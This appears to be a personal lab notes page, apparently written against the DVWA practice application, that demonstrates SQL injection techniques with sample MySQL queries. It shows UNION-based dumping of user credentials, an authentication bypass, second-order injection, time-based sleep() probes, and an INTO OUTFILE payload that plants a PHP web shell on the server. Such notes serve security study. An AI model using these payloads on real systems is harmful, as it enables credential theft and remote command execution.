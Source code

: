 # SQL Injection Playground

This is my playground for all things SQL injection which helps me visualize some of the most commont sqli techniques.

## Classic SQL Injection

### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-15-59-39.png)

```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-16-03-00.png)

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99' 
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-16-16-06.png)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-16-57-24.png)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-19-15-16.png)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-15-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-15-53-52.png)

### References

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet" %}

{% embed url="http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html" %}

{% embed url="https://www.youtube.com/watch?v=Rqt\_BgG5YyI" %}

